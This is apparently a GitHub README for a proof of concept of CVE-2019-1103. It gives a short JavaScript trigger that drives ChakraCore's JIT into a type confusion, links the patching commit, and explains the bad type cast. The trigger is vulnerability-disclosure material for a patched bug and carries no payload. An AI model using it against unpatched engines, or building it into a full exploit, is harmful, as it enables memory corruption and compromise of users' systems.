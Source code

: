 
# CVE-2019-1103-POC

trigger for CVE-2019-1103 <br>
https://github.com/microsoft/ChakraCore/pull/6196/commits/efab3101028045cbfa0cc21bd852f75bcc037dba<br>
got patched before the zdi looked at it..<br>
the poc show's that this improper modeling,<br>
leads to a bad type cast: (e.g: Type Confusion).<br>


```javascript
function opt() {
  
  let e = "e".match;
  
  function f(a,b,c) {
    
      function inline() {
          return b;
       }
                
       e.call([],b); 
        
       if (c) {
         f(inline);
       } 
        
  }
    
  f([],0,1);
  
}

for (let l = 0; l < 100000; l++){
    opt();
}
```
